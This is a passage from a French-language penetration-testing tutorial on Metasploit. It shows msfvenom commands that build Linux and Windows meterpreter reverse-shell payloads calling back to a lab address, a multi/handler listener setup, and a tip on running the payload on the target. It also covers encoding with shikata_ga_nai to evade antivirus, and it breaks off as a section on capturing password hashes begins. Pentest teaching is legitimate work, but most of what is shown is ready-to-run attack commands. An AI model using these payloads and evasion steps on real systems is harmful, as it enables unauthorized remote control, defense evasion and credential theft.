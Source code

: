 ### 🎯 Choix recommandé

* **Réseau privé = bind shell possible**
* **Réseau protégé (NAT, pare-feu) = reverse shell recommandé**

### 🧪 Test : générer un reverse shell Linux avec `msfvenom`

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```

Lancer le listener dans Metasploit :

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
run
```

Puis exécuter le payload sur la cible :

```bash
./shell.elf
```

---

## 3. Évasion antivirus avec `msfvenom` et encoders

Les antivirus détectent souvent les payloads générés. Il faut donc **les encoder**.

### 🎛️ Syntaxe d’un payload encodé

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > shell.exe
```

* `-e x86/shikata_ga_nai` : encodeur
* `-i 5` : nombre d’itérations (plus = mieux caché)
* `-f exe` : format pour Windows

⚠️ Ce n’est pas infaillible. Certains antivirus modernes détectent même les payloads encodés. On utilise parfois des packers (UPX) ou la compilation d’un stub C personnalisé.

---

## 4. Post-exploitation avec Meterpreter

Lorsque l’exploitation réussit, vous entrez dans une **session Meterpreter**. C’est une shell amélioré avec de **nombreuses commandes de contrôle**.

### 🔑 1️⃣ Capturer les hash de mots de passe
